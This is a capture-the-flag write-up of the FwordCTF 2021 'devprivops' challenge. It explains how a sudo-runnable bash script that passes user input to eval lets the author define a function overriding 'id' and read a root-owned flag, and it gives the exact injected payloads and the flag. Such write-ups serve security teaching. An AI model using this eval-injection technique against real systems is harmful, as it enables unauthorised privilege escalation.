 ## Intro
**devprivops** was a bash challenge at FwordCTF 2021.  

You were given access to a linux machine through SSH as _user1_. In the home directory of the user two files of interest can be found - a [shell script](devops.sh) and a `flag.txt`. Both files belong to root and only another user on the system called _user-privileged_ was granted read access to the flag.

```
user1@da8cb1333b60:/home/user1$ ls -la
total 32
drwxrwxr-t 1 root  user1           4096 Aug 27 22:44 ./
drwxr-xr-x 1 root  root            4096 Aug 27 22:43 ../
-rw-r--r-- 1 user1 user1            220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 user1 user1           3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 user1 user1            807 Feb 25  2020 .profile
-rwxr-xr-x 1 root  user-privileged  945 Aug 27 22:09 devops.sh*
-rwxr----- 1 root  user-privileged   67 Aug 27 22:09 flag.txt*
```

Let's escalate!

## Investigation
By inspecting the shell script we learn that we can supply two parameters `-d` and `-p`.  

The `-d` parameter block essentially lets us input the name of a function which gets defined by `eval` and exported afterwards.

```bash
if [[ deploy -eq 1 ]];then
        echo -ne "Please enter your true name if you are a shinobi\n"  
        read -r name
        eval "function $name { terraform init &>/dev/null && terraform apply &>/dev/null ; echo \"It should be deployed now\"; }"
        export -f $name
fi
```

Unfortunately, it seems we can never run it since it's impossible to get past the admin check.

```bash
isAdmin=0
# Ofc only admins can deploy stuffs o//
if [[ $isAdmin -eq 1 ]];then
        $name
fi
```

Or can we?

The evaluation of the `-p` parameter block follows directly after and prints out our current permissions by calling `id`.

```bash
if [[ $permission -eq 1 ]];then
        echo "You are: " 
        id
fi
```

## Solution
A quick `sudo -l` reveals we have the ability to execute [devops.sh](devops.sh) as the _user-privileged_.

```
user1@7c47d98c8907:/home/user1$ sudo -l
Matching Defaults entries for user1 on 7c47d98c8907:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on 7c47d98c8907:
    (user-privileged) NOPASSWD: /home/user1/devops.sh
```

So we execute the script as `sudo -u user-privileged ./devops.sh -d -p` and input the payload `id { cat flag.txt; }; #`, overwriting the `id` function with our malicious one. When the `-p` parameter block gets evaluated afterwards and our `id` is called, the flag gets exposed!

> FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}

##### Edit
A cleaner and simpler payload not relying on the execution of the `-p`parameter block would have been `f { cat flag.txt; }; f; #` evaluating our malicious function immediately.
